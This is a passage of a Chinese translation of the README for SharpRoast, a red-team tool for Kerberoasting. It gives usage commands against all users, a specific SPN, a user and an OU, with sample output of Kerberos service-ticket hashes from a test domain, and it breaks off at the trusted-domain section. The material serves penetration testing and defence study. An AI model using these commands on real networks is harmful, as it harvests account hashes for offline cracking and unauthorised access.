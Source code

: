 ## **SharpRoast**

[SharpRoast](https://github.com/GhostPack/SharpRoast/) 是 [PowerView 各种 Kerberoasting 功能的 C\# 版本](https://github.com/PowerShellMafia/PowerSploit/blob/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1#L2574-L2774)。 [KerberosRequestorSecurityToken.GetRequest Method\(\)](https://msdn.microsoft.com/en-us/library/system.identitymodel.tokens.kerberosrequestorsecuritytoken.getrequest%2528v=vs.110%2529.aspx) 方法由[@machosec](https://twitter.com/machosec) 提供给 PowerView。哈希以 [hashcat](https://hashcat.net/hashcat/)  格式输出。

更多关于 Kerberoasting 的信息，包括 Tim Medin 关于这个主题的原始演讲的链接，请查看我2016年11月发表的博文——[“没有 Mimikatz 的 Kerberoasting"](http://kerberoasting%20without%20mimikatz/)。

对当前域的所有用户进行Kerberoasting攻击:

```bash
C:\Temp>SharpRoast.exe all
SamAccountName         : harmj0y
DistinguishedName      : CN=harmj0y,CN=Users,DC=testlab,DC=local
ServicePrincipalName   : asdf/asdfasdf
Hash                   : $krb5tgs$23$*$testlab.local$asdf/asdfasdf*$14AA4F...

SamAccountName         : sqlservice
DistinguishedName      : CN=SQL,CN=Users,DC=testlab,DC=local
ServicePrincipalName   : MSSQLSvc/SQL.testlab.local
Hash                   : $krb5tgs$23$*$testlab.local$MSSQLSvc/SQL.testlab.local*$9994D1...

...
```

在当前域中针对特定的 SPN发起Kerberoasting攻击:

```bash
C:\Temp>SharpRoast.exe "asdf/asdfasdf"
Hash                   : $krb5tgs$23$*$testlab.local$asdf/asdfasdf*$14AA4F...
```

在当前域中针对某个特定的用户发起 Kerberoasting 攻击:

```bash
C:\Temp>SharpRoast.exe harmj0y
SamAccountName         : harmj0y
DistinguishedName      : CN=harmj0y,CN=Users,DC=testlab,DC=local
ServicePrincipalName   : asdf/asdfasdf
Hash                   : $krb5tgs$23$*$testlab.local$asdf/asdfasdf*$14AA4F...
```

对当前域中指定 OU 的用户进行Kerberoasting攻击:

```bash
C:\Temp>SharpRoast.exe "OU=TestingOU,DC=testlab,DC=local"
SamAccountName         : testuser2
DistinguishedName      : CN=testuser2,OU=TestingOU,DC=testlab,DC=local
ServicePrincipalName   : service/host
Hash                   : $krb5tgs$23$*$testlab.local$service/host*$08A6462...
```

在另一个\(受信任的\)的域的特定 SPN发起Kerberoasting攻击:
